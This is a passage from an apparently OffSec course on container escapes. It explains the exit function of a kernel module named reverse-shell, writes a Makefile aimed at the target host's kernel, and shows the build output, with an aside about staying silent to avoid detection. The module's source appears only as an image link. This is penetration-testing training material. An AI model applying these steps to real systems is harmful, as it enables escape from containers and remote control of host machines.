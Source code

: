 Once the initialization is complete, we need to specify how the module should exit. Without this, we would need to _reboot_ the host to unload the module. On lines 14-17 we have the _kill_listener_ function, which will print a message that we're exiting. In the real-world, we probably would not print anything in order to stay more silent. However, logging does help us _debug_ exploits if needed. We'll specify that the _kill_listener_ function will be run on exit by passing it through the _module_exit_[3](https://portal.offsec.com/learning-paths/offensive-cloud-foundations-167536/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fn-local_id_1093-3) macro.

With the module code created, we need to compile it. For this, we'll create a _Makefile_, which will define the tasks to be executed for the compilation to succeed.

```
root@compiler:/exp# nano Makefile

root@compiler:/exp# cat -n Makefile
     1  obj-m +=reverse-shell.o
     2
     3  all:
     4          make -C /lib/modules/5.15.0-52-generic/build M=$(PWD) modules
     5
     6  clean:
     7          make -C /lib/modules/5.15.0-52-generic/build M=$(PWD) clean
```

> Listing 30 - Create the Makefile

We'll start by specifying the object file (**reverse-shell.o**) to output with the _obj-m_ variable. After linking the object file, the compiler will provide us with **reverse-shell.ko**, which will be the actual kernel module we'll load.

On line 3, we need to specify which objects to build. We are only trying to build the single object, so we'll target it with the **all** target.

On line 4, we'll specify the command to build the module. The **-C** argument specifies the _source of the kernel_, which matches the target's kernel, not our Kali kernel. The value of **M** specifies the _path of the directory_ where the builder can find the module. The **modules** keyword at the end is the target that indicates we want to build an external module.

Finally, the **clean** section is for us _to clear the directory_ in case we need to start over. If needed, we would run **make clean** to delete all generated files. This won't delete the **Makefile** or the **reverse-shell.c** file.

Now that we have our instructions, lets compile the module by running **make**.

```
root@compiler:/exp# make
make -C /lib/modules/5.15.0-52-generic/build M=/exp modules
make[1]: Entering directory '/usr/src/linux-headers-5.15.0-52-generic'
  CC [M]  /exp/reverse-shell.o
  MODPOST /exp/Module.symvers
  CC [M]  /exp/reverse-shell.mod.o
  LD [M]  /exp/reverse-shell.ko
  BTF [M] /exp/reverse-shell.ko
Skipping BTF generation for /exp/reverse-shell.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-5.15.0-52-generic'

root@compiler:/exp# ls -alh
total 420K
drwxr-xr-x. 2 root root 4.0K Oct 20 21:50 .
dr-xr-xr-x. 1 root root   84 Oct 20 21:49 ..
-rw-r--r--. 1 root root  146 Oct 20 21:50 .Module.symvers.cmd
-rw-r--r--. 1 root root  104 Oct 20 21:50 .modules.order.cmd
-rw-r--r--. 1 root root  170 Oct 20 21:50 .reverse-shell.ko.cmd
-rw-r--r--. 1 root root   94 Oct 20 21:50 .reverse-shell.mod.cmd
-rw-r--r--. 1 root root  38K Oct 20 21:50 .reverse-shell.mod.o.cmd
-rw-r--r--. 1 root root  38K Oct 20 21:50 .reverse-shell.o.cmd
-rw-r--r--. 1 root root  162 Oct 20 21:50 Makefile
```